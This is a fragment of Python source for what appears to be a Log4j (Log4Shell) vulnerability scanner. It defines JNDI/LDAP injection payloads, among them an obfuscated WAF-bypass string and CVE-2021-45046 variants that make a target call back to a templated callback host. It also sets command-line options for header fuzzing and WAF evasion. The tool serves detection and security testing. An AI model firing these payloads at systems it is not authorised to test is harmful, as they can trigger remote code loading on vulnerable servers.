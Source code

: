   ```python
                         "${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:ldap://{{callback_host}}/{{random}}}"
                         ]
  
  cve_2021_45046 = [
      # Source: https://twitter.com/marcioalm/status/1471740771581652995,
      "${jndi:ldap://127.0.0.1#{{callback_host}}:1389/{{random}}}",
      "${jndi:ldap://127.0.0.1#{{callback_host}}/{{random}}}",
      "${jndi:ldap://127.1.1.1#{{callback_host}}/{{random}}}"
  ]
  
  parser = argparse.ArgumentParser()
  parser.add_argument("-u", "--url",
                      dest="url",
                      help="Check a single URL.",
                      action='store')
  parser.add_argument("-p", "--proxy",
                      dest="proxy",
                      help="send requests through proxy",
                      action='store')
  parser.add_argument("-l", "--list",
                      dest="usedlist",
                      help="Check a list of URLs.",
                      action='store')
  parser.add_argument("--request-type",
                      dest="request_type",
                      help="Request Type: (get, post) - [Default: get].",
                      default="get",
                      action='store')
  parser.add_argument("--headers-file",
                      dest="headers_file",
                      help="Headers fuzzing list - [default: headers.txt].",
                      default="headers.txt",
                      action='store')
  parser.add_argument("--run-all-tests",
                      dest="run_all_tests",
                      help="Run all available tests on each URL.",
                      action='store_true')
  parser.add_argument("--exclude-user-agent-fuzzing",
                      dest="exclude_user_agent_fuzzing",
                      help="Exclude User-Agent header from fuzzing - useful to bypass weak checks on User-Agents.",
                      action='store_true')
  parser.add_argument("--wait-time",
                      dest="wait_time",
                      help="Wait time after all URLs are processed (in seconds) - [Default: 5].",
                      default=5,
                      type=int,
                      action='store')
  parser.add_argument("--waf-bypass",
                      dest="waf_bypass_payloads",
                      help="Extend scans with WAF bypass payloads.",
                      action='store_true')
  parser.add_argument("--custom-waf-bypass-payload",
                      dest="custom_waf_bypass_payload",
                      help="Test with custom WAF bypass payload.")
  parser.add_argument("--test-CVE-2021-45046",
                      dest="cve_2021_45046",
                      help="Test using payloads for CVE-2021-45046 (detection payloads).",
                      action='store_true')
  parser.add_argument("--dns-callback-provider",
                      dest="dns_callback_provider",
  ```